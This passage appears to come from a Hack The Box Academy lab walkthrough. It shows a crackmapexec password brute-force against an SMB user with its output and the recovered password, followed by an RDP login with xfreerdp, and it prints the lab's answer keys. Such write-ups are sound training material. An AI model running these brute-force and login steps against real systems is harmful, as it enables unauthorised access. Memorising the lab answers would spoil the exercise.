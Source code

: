 Then, with the generated passwords wordlist, students need to use `crackmapexec` to bruteforce the password of the user `fiona` on SMB:

```shell
sudo cme smb STMIP -u fiona -p passwords.txt
```
```
┌─[eu-academy-1]─[10.10.14.45]─[htb-ac413848@htb-qnhsqvzyaq]─[~]
└──╼ [★]$ sudo cme smb 10.129.112.104 -u fiona -p passwords.txt

/root/.local/pipx/venvs/crackmapexec/lib/python3.9/site-packages/paramiko/transport.py:236: CryptographyDeprecationWarning: Blowfish has been deprecated
  "class": algorithms.Blowfish,
SMB         10.129.112.104  445    WIN-HARD         [*] Windows 10.0 Build 17763 x64 (name:WIN-HARD) (domain:WIN-HARD) (signing:False) (SMBv1:False)
SMB         10.129.112.104  445    WIN-HARD         [-] WIN-HARD\fiona:Windows Creds STATUS_LOGON_FAILURE 
SMB         10.129.112.104  445    WIN-HARD         [-] WIN-HARD\fiona: STATUS_LOGON_FAILURE 
SMB         10.129.112.104  445    WIN-HARD         [-] WIN-HARD\fiona:kAkd03SA@#! STATUS_LOGON_FAILURE 
SMB         10.129.112.104  445    WIN-HARD         [+] WIN-HARD\fiona:48Ns72!bns74@S84NNNSl
```

Students will attain the password `48Ns72!bns74@S84NNNSl`.

Answer: `48Ns72!bns74@S84NNNSl`

# Attacking Common Services - Hard

## Question 3

### "Once logged in, what other user can we compromise to gain admin privileges?"

Using the previously attained credentials `fiona:48Ns72!bns74@S84NNNSl`, students need to connect to spawned target utilizing `xfreerdp` and then open PowerShell:

```
┌─[eu-academy-1]─[10.10.14.45]─[htb-ac413848@htb-qnhsqvzyaq]─[~]
└──╼ [★]$ xfreerdp /v:10.129.203.10 /u:fiona /p:'48Ns72!bns74@S84NNNSl'
<SNIP>
[20:59:35:699] [15143:15144] [ERROR][com.freerdp.crypto] - does not match the name given in the certificate:
[20:59:35:699] [15143:15144] [ERROR][com.freerdp.crypto] - Common Name (CN):
[20:59:35:699] [15143:15144] [ERROR][com.freerdp.crypto] - 	WIN-HARD
[20:59:35:699] [15143:15144] [ERROR][com.freerdp.crypto] - A valid certificate for the wrong name should NOT be trusted!
Certificate details for 10.129.203.10:3389 (RDP-Server):
	Common Name: WIN-HARD
	Subject:     CN = WIN-HARD
	Issuer:      CN = WIN-HARD
	Thumbprint:  6a:a8:87:fc:e0:83:73:73:e7:da:b0:ec:d7:5d:33:e2:62:c3:97:ac:9e:d3:ae:72:b6:1c:83:93:ea:bf:50:d8
The above X.509 certificate could not be verified, possibly because you do not have
the CA certificate in your certificate store, or the certificate has expired.
Please look at the OpenSSL documentation on how to add a private CA to the store.
Do you trust the above certificate? (Y/T/N) Y
<SNIP>
```
